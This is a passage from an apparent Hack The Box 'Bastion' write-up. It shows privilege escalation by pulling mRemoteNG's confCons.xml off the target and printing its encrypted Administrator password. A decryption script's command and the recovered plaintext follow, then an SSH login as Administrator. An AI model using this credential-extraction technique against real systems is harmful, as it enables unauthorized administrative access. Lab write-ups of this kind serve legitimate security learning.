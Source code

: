 After some enumeration I found `mRemoteNG`:

![7ef00a7d0f27e8302c0608628ee68b80.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bastion/f1485f1b83664dfb9a56b70c822bc6df.png)


 > mRemoteNG is a fork of mRemote: an open source, tabbed, multi-protocol, remote connections manager. mRemoteNG adds bug fixes and new features to mRemote. It allows you to view all of your remote connections in a simple yet powerful tabbed interface. -mremoteng.org

> mRemoteNG saves the connections info and credentials in a file called confCons.xml.

**Reference:** <http://hackersvanguard.com/mremoteng-insecure-password-storage/>


I downloaded it with `scp` :
![eac448cb9bf41eb5acff5313705839b6.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bastion/ea7de3406f0e4bc1bae0418a1e5f100c.png)

The `XML` file contains Administrator hash.
```
<Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" 
```

I found a [Python script](https://github.com/haseebT/mRemoteNG-Decrypt) used to decrypt the password stored by mRemoteNG.
```
root@w0lf:~/CTF/HTB/Boxes/Bastion# python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```

Logged in as **Administrator** via SSH


![80915571c2159afc24d95dbb32a77b67.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-bastion/795a9fa9b0d84c9782f2ac09f0228b75.png)





























